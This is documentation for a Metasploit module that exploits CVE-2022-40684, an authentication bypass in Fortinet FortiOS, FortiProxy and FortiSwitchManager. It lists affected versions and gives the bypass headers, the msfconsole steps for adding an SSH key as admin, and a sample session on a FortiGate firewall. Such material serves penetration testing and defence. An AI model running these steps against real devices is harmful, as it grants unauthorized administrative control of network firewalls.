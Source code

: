 ## Vulnerable Application

An authentication bypass using an alternate path or channel vulnerability [CWE-288] in FortiOS (firewall)
FortiProxy (web proxy), and FortiSwitch Manager products. The vulnerability allows remote, unauthenticated user to
bypass authentication and gain access to the administrative interface of these products by using a specially
crafted http/s request.

On October 3, 2022, Fortinet released a software update that addressed this vulnerability (CVE-2022-40684).

The following products are affected:

- FortiOS 7.0.0 to 7.0.6
- FortiOS 7.2.0 to 7.2.1
- FortiProxy 7.0.0 to 7.0.6
- FortiProxy 7.2.0
- FortiSwitchManager 7.0.0
- FortiSwitchManager 7.2.0

### Exploitation

This module will abuse the authentication bypass vulnerability in the affected products to add a new ssh public
key in the authorized keys of the target user and then connect over ssh to the target system. If no ssh private
key is provided this module will automatically generate one.

To do so it will add the following header in all HTTP requests:
```
User-Agent: Report Runner
Forwarded: for="[127.0.0.1]:8888";by="[127.0.0.1]:8888"
```

This module doesn't intend to overwrite the ssh keys already configured in the target system, it intends to
**add** a new key in the last slot, if it is available or overwriting it.

Even though the `check` detects the system as vulnerable, it performs a further validation if the ssh port is open and will fail otherwise.

After a successful exploitation it will remove the just added key as a clean-up process. We assume it is the last key.

## Verification Steps
Confirm that functionality works:

1. Start `msfconsole`
2. `use exploit/linux/http/fortinet_authentication_bypass_cve_2022_40684`
3. set `RHOSTS`
4. set `HttpTrace true` (optional)
4. set `SSH_DEBUG true` (optional)
4. set `VERBOSE true` (optional)
4. `exploit`
5. Confirm you have now a cmd session

## Options

### TARGETURI (required)

The path to the Fotigate API (Default: `/`).

### USERNAME (required)

The username of the targed user (Default: `admin`).

### PRIVATE_KEY (optional)

The path for the SSH private key to be used to authenticate. It must be in PEM format.

Example how to generate it:
```
ssh-keygen -t rsa -m PEM -f `openssl rand -hex 8`
```

### KEY_PASS (optional)

The password for a given SSH private key (if it has one).

### SSH_RPORT (required)

The SSH port to connnect to (Default: `22`)

## Scenarios

### vulnerable application version and OS
This module has been tested successfully on FortiGate v7.2.0.

```
msf6 exploit(linux/http/fortinet_authentication_bypass_cve_2022_40684) > exploit 

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking XXX.XXX.XXX.XXX:443
[+] The target appears to be vulnerable. Target seems vulnerable
[*] Executing exploit on Interactive SSH
[*] Establishing SSH connection
[*] SSH session 1 opened (172.25.226.18:38791 -> XXX.XXX.XXX.XXX:22) at 2022-10-15 04:00:41 +0200

FW01 #  get sys status
Version: FortiGate-100F v7.2.0,build1157,220331 (GA.F)
Firmware Signature: certified 
```

